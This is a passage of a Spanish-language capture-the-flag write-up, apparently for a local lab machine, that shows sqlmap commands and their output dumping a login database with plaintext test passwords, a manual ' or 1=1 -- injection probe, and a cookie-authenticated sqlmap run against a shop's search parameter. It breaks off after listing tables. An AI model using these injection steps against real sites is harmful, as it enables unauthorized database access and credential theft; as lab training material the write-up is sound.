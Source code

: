 Al revisarlos, img y vendor no me terminan de parecer interesantes.

# EXPLOTACION

Al revisar la web que hay en el puerto 80, vemos que hay un login. 

Vamos a usar **sqlmap** para ver si es vulnerable a una SQLI.

   ```bash

sqlmap -u "http://172.17.0.2/login.php" --batch --forms --dbs                  

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users


sqlmap -u "http://172.17.0.2/login.php" --batch --forms -D users --tables

Database: users
[1 table]
+----------+
| usuarios |
+----------+

sqlmap -u "http://172.17.0.2/login.php" --batch --forms -D users -T usuarios --dump

Database: users
Table: usuarios
[3 entries]
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+

```

Probamos credenciales y no sirven.

Nos creamos una cuenta y entramos.

Echamos un ojo a **mycart.php** , vemos que al meter `' or 1=1 --` en la búsqueda de productos peta, posible **SQLI** otra vez, vamos a automatizarlo con **sqlmap**.
Necesitamos arrastrar la cookie, para ello Click derecho > Inspeccionar > Storage > Cookies

   ```bash

sqlmap -u "http://172.17.0.2/mycart.php?search=" --batch --dbs --cookie="PHPSESSID=dic1u6ivstpgih4cos6cnv09eg"               

available databases [5]:
[*] apple_store
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

sqlmap -u "http://172.17.0.2/mycart.php?search=" --batch -D apple_store --tables --cookie="PHPSESSID=dic1u6ivstpgih4cos6cnv09eg"                

   ```